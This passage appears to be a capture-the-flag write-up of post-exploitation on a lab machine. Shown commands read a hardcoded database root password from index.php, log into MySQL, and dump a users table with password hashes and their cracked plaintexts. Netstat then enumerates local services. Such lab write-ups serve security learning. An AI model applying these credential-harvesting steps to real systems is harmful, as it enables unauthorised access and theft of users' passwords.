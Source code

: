 When we check index.php we find a root password, this is only the passwrd for the database and not for the user root:
```
apaar@ubuntu:/var/www/files$ cat index.php
cat index.php
[SNIP]
try{
			$con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
[SNIP]
```

We login to the database as root in hopes of finding more credentials:
```
apaar@ubuntu:/var/www/files$ mysql -u root -h localhost -D webportal -p
mysql -u root -h localhost -D webportal -p
Enter password: !@m+her00+@db

mysql> select * from users;
select * from users;
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
2 rows in set (0.00 sec)

mysql> 
```

Crack the password hashes:
```
7e53614ced3640d5de23f111806cc4fd = masterpassword
686216240e5af30df0501e53c789a649 = dontaskdonttell
```

- It is a dead-end, as these passwords do not allow us to login anywhere
- Use netstat to check ports we find that there is a service running locally on port 9001:

```
apaar@ubuntu:/var/www/files$ netstat -ntpl
netstat -ntpl

Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:9001          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               
[SNIP]
```
